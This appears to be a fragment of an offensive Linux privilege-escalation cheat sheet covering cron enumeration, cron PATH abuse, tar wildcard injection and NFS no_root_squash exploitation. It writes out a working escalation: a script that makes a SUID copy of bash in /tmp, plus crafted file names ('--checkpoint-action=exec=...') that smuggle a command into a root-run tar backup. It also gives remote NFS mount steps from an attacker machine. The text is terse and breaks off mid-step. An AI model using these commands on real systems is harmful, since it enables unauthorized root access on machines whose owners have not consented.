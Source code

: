 Crons can be enumerated with:

```text
cat /etc/crontab
```

Also located in these directories.

```text
/var/spool/cron/
/var/spool/cron/crontabs/
```

The crontab PATH environment variable is by default set to `/usr/bin:/bin`

### Cron paths

PATH + relative path = win

### Wildcards \(\*\)

When.

```text
cd /home/user
tar czf /tmp/backup.tar.gz *
```

Then you can. 

```text
echo "cp /bin/bash /tmp/yz && chmod +s /tmp/yz" > malicious.sh
chmod +x malicious.sh
touch ./--checkpoint=1
touch ./--checkpoint-action=exec=sh\malicious.sh
```

## NFS root squashing

Check for `no_root_squash` .

```text
cat /etc/exports
```

Then you can list mountable folders from your attacker machine.

```text
showmount -e <RHOST>
```

And mount one of them.

```text
mkdir /tmp/<local_folder>
mount -o rw,vers=2 <RHOST>:/<remote_folder> /tmp/<local_folder>
```

Create a .c file inside your newly mounted folder.

